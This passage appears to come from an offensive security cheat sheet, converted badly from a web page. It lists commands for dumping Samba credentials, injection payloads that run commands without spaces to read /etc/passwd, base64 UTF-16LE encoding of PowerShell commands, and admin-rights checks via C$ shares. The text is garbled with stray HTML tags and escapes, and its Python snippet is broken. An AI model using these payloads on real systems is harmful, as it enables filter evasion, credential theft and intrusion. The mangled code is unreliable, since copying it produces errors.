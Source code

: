 <span id="anchor-175"></span>Dump Samba Credentials

```
pdbdump -Lw
```

```
pbtool **&lt;file&gt;** dump
```

<span id="anchor-176"></span>Execute Commands Without Spaces (Examples)

```
IFS=,;`cat&lt;&lt;&lt;cat,/etc/passwd`
cat$IFS/etc/passwd
cat${IFS}/etc/passwd
cat&lt;/etc/passwd               
{cat,/etc/passwd} OR {ls,-las,/var} with args
X=$'cat\x20/etc/passwd'&amp;&amp;$X</td>
```

<span id="anchor-177"></span>Windows Commands

<span id="anchor-178"></span>PowerShell

<span id="anchor-179"></span>Encoding Commands from File (Linux)

```
iconv -f ASCII -t UTF-16LE **&lt;file&gt;** \| base64 -w 0
```

<span id="anchor-180"></span>Encoding Commands from Inline (Linux)

```
echo "**&lt;command&gt;**" \| iconv -t UTF-16LE \| base64 -w 0
```

<span id="anchor-181"></span>Encoding Commands with Python

```
from base64 import b64encode
b64encode('<strong>&lt;command&gt;</strong>').encode('UTF-16LE')</p></td>
```

<span id="anchor-182"></span>Encoding Commands with Ruby

```
require "base64"
Base64.encode64('<strong>&lt;command&gt;</strong>'.force_encoding('UTF-16LE'))</p></td>
```

<span id="anchor-183"></span>Checking for Access Level

<span id="anchor-184"></span>Check Username

```
Echo %USERNAME%
```

<span id="anchor-185"></span>Use DIR to Check For Admin Rights

```
dir \\\\**&lt;host&gt;**\\C$
```
